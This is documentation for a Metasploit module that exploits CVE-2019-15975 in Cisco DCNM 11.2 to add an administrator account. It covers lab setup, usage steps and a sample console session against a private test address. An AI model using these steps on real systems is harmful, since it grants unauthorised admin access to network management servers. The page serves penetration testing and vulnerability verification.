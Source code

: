 ## Description

This module exploits CVE-2019-15975 which affects Cisco DCNM versions 11.2 up to but not including 11.3(1). This exploit
adds an admin account with any credentials you want. Then you can login to the web interface of Cisco DCNM with those
credentials. The only necessary condition is the more or less recent connection (probably something like within the last
hours) of an admin as this exploit uses a kind of session stealing.

## Installation

A vulnerable version of Cisco DCNM can be downloaded from
[here](https://software.cisco.com/download/home/281722751/type/282088134/release/11.2(1)). Then follow all the steps in
the installation interface. You might have to set up a database if the auto installation of PostgreSQL fails for
instance (that was my case and I finally had to manually install PostgreSQL).

## Verification Steps

List the steps needed to make sure this thing works

1. Start `msfconsole`
2. `use auxiliary/admin/networking/cisco_dcnm_auth_bypass`
3. `set RHOST <target_host>`
4. `check` to check if the targeted Cisco DCNM is vulnerable
5. `set USERNAME <username>` and `set PASSWORD <password>` to specify the credentials you want to add
6. `run` the module to exploit the CVE and add an admin account with those credentials

## Options

**RHOSTS**

Set the target host.

**USERNAME**

Set the USERNAME of the admin account you want to add.

**PASSWORD**

Set the PASSWORD of the admin account you want to add.

**RETRIES**

You can change the maximum number of attempts to add an admin account by using `set RETRIES <max_retries>`.

## Scenarios

### DCNM 11.2(1) - Linux OVA Appliance

```
msf6 > use auxiliary/admin/networking/cisco_dcnm_auth_bypass
msf6 auxiliary(admin/networking/cisco_dcnm_auth_bypass) > set RHOST 192.168.159.33
RHOST => 192.168.159.33
msf6 auxiliary(admin/networking/cisco_dcnm_auth_bypass) > check
[+] 192.168.159.33:443 - The target is vulnerable.
msf6 auxiliary(admin/networking/cisco_dcnm_auth_bypass) > run
[*] Running module against 192.168.159.33

[+] Admin account with username: 'frederick' and password: '1OwNqJnO' added!
[*] Auxiliary module execution completed
msf6 auxiliary(admin/networking/cisco_dcnm_auth_bypass) >
```
